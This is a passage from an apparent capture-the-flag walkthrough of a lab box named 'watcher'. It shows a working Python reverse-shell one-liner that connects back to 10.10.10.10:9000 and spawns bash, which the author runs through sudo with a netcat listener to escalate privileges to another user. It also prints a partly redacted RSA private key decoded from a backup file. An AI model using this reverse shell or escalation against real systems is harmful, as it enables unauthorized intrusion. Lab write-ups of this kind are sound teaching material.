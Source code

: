 ```terminal
mat@watcher:~/scripts$ cat cmd.py                                                                                                                            
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
 os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);                                                                                                

def get_command(num):                                                                                                                                        
        if(num == "1"):                                                                                                                                      
                return "ls -lah"                                                                                                                             
        if(num == "2"):                                                                                                                                      
                return "id"                                                                                                                                  

        if(num == "3"):                                                                                                                                      
                return "cat /etc/passwd"                                                                                                                     
mat@watcher:~/scripts$  
```

Let's set up another listener for this and then run the script:

```terminal
mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script 2
```

```terminal
$nc -lvnp 9000
listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.180.180] 38226
$ whoami
will
```

Great, we escalated to will now.

## Flag 7

After some enumeration, we found base64 encoded file located in **/opt** directory:

```terminal
will@watcher:/opt/backups$ ls
key.b64
will@watcher:/opt/backups$ base64 -d key.b64
-----BEGIN RSA PRIVATE KEY-----
RedactedAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
q3X7D50gikpEZEUeIMPPjPcUNGUKaXoaX5n2XaYBtQiRR6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/redactedredactedredactedredacted+++w+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
```